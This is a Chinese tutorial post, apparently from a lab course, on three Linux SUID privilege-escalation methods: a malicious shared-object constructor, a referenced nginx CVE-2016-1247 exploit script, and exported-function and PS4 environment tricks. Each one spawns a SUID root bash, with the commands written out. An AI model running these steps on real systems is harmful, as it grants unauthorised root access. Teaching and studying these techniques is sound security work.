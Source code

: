 ```yaml
---
title: suid提权的三种思路
categories:
- linux
tags:
- linux
---
```


## 制作的视频教程
https://www.bilibili.com/video/BV1ok4y1m75p

## 方法一：shared object注入
```
find / -type f -perm -04000 -ls 2>/dev/null
strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"
mkdir /home/user/.config
vi libcalc.c


#include <stdio.h> 
#include <stdlib.h> 
static void inject() __attribute__((constructor)); 
void inject() { 
system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p"); 
}

gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c

/usr/local/bin/suid-so
```
原理：某些程序运行时候，有着管理员权限，却可以被任何用户调用，这就是suid权限。
如果这个suid程序调用了某些shared object，可以通过伪造shared object，来伪造命令。以该程序的root权限，去执行提权命令。
`cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p`

注意，suid权限必须是二进制程序才能用，脚本程序是无效的。
概念：动态链接与静态链接的区别
		 .dll与.so的区别
编译语言编程基础，熟悉linux命令

## 方法二：symlik——符号链接
需要www-data权限，nginx版本在1.6.2-5+deb8u3版本以下。

### 发现
```
dpkg -l | grep nginx
su -l www-data
```
### 利用
```
使用exp去执行获得root权限，具体请看视频教程
/home/user/tools/nginx/nginxed-root.sh /var/log/nginx/error.log

invoke-rc.d nginx rotate >/dev/null 2>&1
```
## 方法三：环境变量
```
find / -type f -perm -04000 -ls 2>/dev/null
//查看有suid权限的程序

strings /usr/local/bin/suid-env
//查看二进制文件使用的函数

whereis service
//查看service的路径
/usr/sbin/service

---
echo $PATH
echo $USER
echo $PWD
echo $HOME
什么是环境变量：
可以使用export命令去定义环境变量
比如说：
环境变量与terminal终端息息相关，当打开了一个terminal，它就会自动加载环境
变量。
如何去使用环境变量：
export b=192.168.28.128
ping -c 4 $b

```
### 案例一：
首先了解一下export命令

```
function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }

export -f /usr/sbin/service

/usr/local/bin/suid-env2

env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp && chown root.root /tmp/bash && chmod +s /tmp/bash)' /bin/sh -c '/usr/local/bin/suid-env2; set +x; /tmp/bash -p'
```
### 案例二：
明确两个东西，一个是环境变量，一个是函数
```
function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }

//   "/usr/sbin/service" 函数名称
//   bash 定义一个很像service绝对路径的函数

export -f /usr/sbin/service
/usr/local/bin/suid-env2
//  将这个函数“/usr/sbin/service”保存到环境变量，并去执行suid程序“/usr/local/bin/suid-env2”
//   suid程序本来是想去执行service apache2 start，/usr/sbin/service
cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p;

```
## 参考资料
- [https://legalhackers.com/advisories/Nginx-Exploit-Deb-Root-PrivEsc-CVE-2016-1247.html](https://legalhackers.com/advisories/Nginx-Exploit-Deb-Root-PrivEsc-CVE-2016-1247.html)
-     [https://camo.githubusercontent.com/acb487594dbe457b6711a0a70eb545ec828159a8/68747470733a2f2f7062732e7477696d672e636f6d2f6d656469612f44415a73453256555141415f62705a2e6a7067](https://camo.githubusercontent.com/acb487594dbe457b6711a0a70eb545ec828159a8/68747470733a2f2f7062732e7477696d672e636f6d2f6d656469612f44415a73453256555141415f62705a2e6a7067)
- [https://www.freecodecamp.org/news/symlink-tutorial-in-linux-how-to-create-and-remove-a-symbolic-link/](https://www.freecodecamp.org/news/symlink-tutorial-in-linux-how-to-create-and-remove-a-symbolic-link/)
- [https://bash.cyberciti.biz/guide/Pass_arguments_into_a_function](https://bash.cyberciti.biz/guide/Pass_arguments_into_a_function)